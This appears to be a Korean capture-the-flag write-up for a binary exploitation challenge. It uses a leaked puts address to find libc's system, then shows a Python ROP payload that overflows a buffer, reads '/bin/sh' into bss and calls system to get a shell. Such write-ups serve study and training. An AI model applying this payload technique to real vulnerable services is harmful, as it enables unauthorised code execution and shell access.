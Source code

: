 ## 함수 분석 / 취약점 발견
### main
IDA로 decompiling을 했는데 main에서 대놓고 puts함수의 주소를 주고 있었다.
```c
  printf("oh, here is %s. Also I %x the variable foods for you.\n", s, &puts);
```
libc상에서 puts와 system의 offset차이는 항상 동일함을 실험(?)을 통해 밝혀냈다. (`p system - puts`). (추가: libc에서는 어떤 함수든 offset의 차이가 항상 동일하다.)
* system의 주소를 구할 수 있음이 확정되었다!
* 마찬가지로 read 함수도 실행시킬 수 있다. 즉, /bin/sh을 입력하자

### 결론
* read 함수를 실행시켜 /bin/sh에 입력하자
* system의 함수 주소를 가지고 "/bin/sh을 실행시키자"

## 구현
* 이번에는 /bin/sh을 stack이 아닌 bss에 입력하였다. bss영역의 주소는 readelf로 구하였다.
```python
payload = b'a'*274
payload += p32(read_addr) + p32(pppr) + p32(0) + p32(bss) + p32(8) + p32(system_addr) + b"aaaa" + p32(bss)
p.sendline(payload)
p.recvline()
p.send('/bin/sh\x00')
```